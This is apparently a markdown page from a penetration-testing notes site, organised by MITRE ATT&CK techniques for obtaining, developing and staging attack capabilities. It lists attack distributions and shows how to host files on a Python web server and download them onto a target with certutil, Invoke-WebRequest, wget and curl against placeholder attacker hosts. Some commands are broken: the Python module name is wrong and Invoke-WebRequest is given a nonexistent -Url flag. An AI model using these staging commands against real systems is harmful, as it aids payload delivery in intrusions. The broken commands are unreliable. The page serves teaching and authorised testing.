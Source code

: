 ```yaml
---
title: Obtain, Develop and Stage Capabilities
categories: [Ethical Hacking Tools,Stage Capabilities]
tags: [stage capabilities (T1608), obtain capabilities (T1588), develop capabilities (T1587)]
comments: true
---
```


# Overview

Obtaining, Developing and Staging capabilities or resources is an integral part of attack Planning and Reconnaissance. Ensuring that capabilities are setup and configured prior to launching an attack on a target and providing various supporting mechanisms across the different attack phases. Capabilities can include tool deployment, server initialization and configuration, malware creation and resource hosting. 

# [Obtaining Capabilities](https://attack.mitre.org/techniques/T1588)

Adversaries may buy and/or steal capabilities that can be used during targeting. Rather than developing their own capabilities in-house, adversaries may purchase, freely download, or steal them. Activities may include the acquisition of malware, software (including licenses), exploits, certificates, and information relating to vulnerabilities. Adversaries may obtain capabilities to support their operations throughout numerous phases of the adversary lifecycle.

## Penetration Testing Suites

There are two main distributions that come pre-packaged with various tools in support of penetration testing activities. A custom environment can also be created to aid in what ever tasks that are planning to be carried out.

[Kali Linux](https://www.kali.org/)
: Kali Linux is an open-source, Debian-based Linux distribution geared towards various information security tasks, such as Penetration Testing, Security Research, Computer Forensics and Reverse Engineering.

[ParrotOS](https://parrotlinux.org/)
: Parrot Security provides a huge arsenal of tools, utilities and libraries that IT and security professionals can use to test and assess the security of their assets in a reliable, compliant and reproducible way. From information gathering to the final report. The Parrot system gets you covered with the most flexible environment.

# [Developing Capabilities](https://attack.mitre.org/techniques/T1587)

Adversaries may build capabilities that can be used during targeting. Rather than purchasing, freely downloading, or stealing capabilities, adversaries may develop their own capabilities in-house. This is the process of identifying development requirements and building solutions such as malware, exploits, and self-signed certificates. Adversaries may develop capabilities to support their operations throughout numerous phases of the adversary lifecycle.

## Malware Development with MSFvenom

### Sources
- [Offensive Security - Metasploit Unleashed (Msfvenom)](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)

# [Staging Capabilities](https://attack.mitre.org/techniques/T1608)

## Hosting Resources via a Python HTTP Server

Python is able to be used to host a HTTP web server in order to serve resources that can be downloaded remotely via a target system.

1. Create a local folder to host files and resources
2. Open a terminal windows and navigate to the previously created directory
3. Establish a web server using python via the following command, replace `%PORT%` with the desired port to host the server on.

    ```bash
    python3 -m simpleHTTPServer %PORT%
    ```

### Downloading Hosted Resources

There are various ways to download the resources on a target host via the aforementioned Python HTTP Server. Some of the more common and easier methods are below

**Windows**
1. Certutil.exe

    ```powershell
    certutil.exe -urlcache -f http://%IPADDRESS%:%PORT%/%RESOURCE% %OUTPUT%
    ```
2. Invoke-WebRequest (wget)

    ```powershell
    Invoke-WebRequest -Method Get -Url http://%IPADDRESS%:%PORT%/%RESOURCE% -OutFile %OUTPUT%
    ```
**Linux**
1. Wget

    ```bash
    wget -O %OUTPUT% http://%IPADDRESS%:%PORT%/%RESOURCE%
    ```

2. Curl

    ```bash
    curl -o %OUTPUT% http://%IPADDRESS%:%PORT%/%RESOURCE%
    ```